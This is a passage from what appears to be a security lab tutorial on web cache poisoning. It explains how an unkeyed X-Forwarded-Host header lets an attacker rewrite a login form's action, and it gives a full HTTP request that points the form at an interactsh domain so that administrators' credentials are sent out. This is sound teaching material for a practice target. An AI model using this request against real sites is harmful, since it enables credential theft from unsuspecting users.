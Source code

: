 * * *

## Identification

After starting the web application in the exercise below, we see a login view. Since we do not have credentials there is not much we can do at this point. So let's investigate the web application for keyed parameters. We can apply the same logic from the previous sections to determine that both the path and the host header are keyed. There are no GET parameters to test.

Additionally, we can see that the web application uses the host header to construct the absolute URL of a JavaScript import and the action of the login form:

![image](kCZMzRHvZ3EO.png)

Since the host header is keyed, this by itself is not sufficient to poison the cache for other users. However, if we try to inject override headers, the web application prefers the override header `X-Forwarded-Host` over the host header. Applying the same testing logic we can deduce that the X-Forwarded-Host header is unkeyed, making the web application vulnerable to web cache poisoning. Keep in mind that we need to use a fresh value for the host header to act as a cache buster:

![image](q1XumEX5eNj1.png)

* * *

## Exploitation

We could exploit this in two different ways:

- Since the web application uses our malicious input for a JavaScript import, we could point it to a server under our control, host a script file, and execute an XSS attack against all users that get served the poisoned cache
- Since the web application also uses our malicious input for the action of the login form, we could point it to a server under our control and wait for a user to log in. This would send the login credentials to our server

We are going to execute the second approach. To do that, let's use `interact.sh` again: [https://app.interactsh.com/](https://app.interactsh.com/). Copy the domain generated by interact.sh to the X-Forwarded-Host header. Now we just need to know the host header other users are using for the application. In a real-world setting, this value would be obvious as we already know the target's URL, for instance, `www.hackthebox.com`. In our case, let's assume the domain is `admin.hostheaders.htb`. So the full request to poison the cache looks like this:

```http
GET /login.php HTTP/1.1
Host: admin.hostheaders.htb
X-Forwarded-Host: cf187gp2vtc0000b03cgg8owd3ayyyyyb.oast.fun

```

Send the request twice and ensure that the second request is a cache hit. Now we just have to wait for another user to log in. After some time we should see a request on interact.sh containing the administrator's credentials:

![image](UTXXp6zUY7kJ.png)
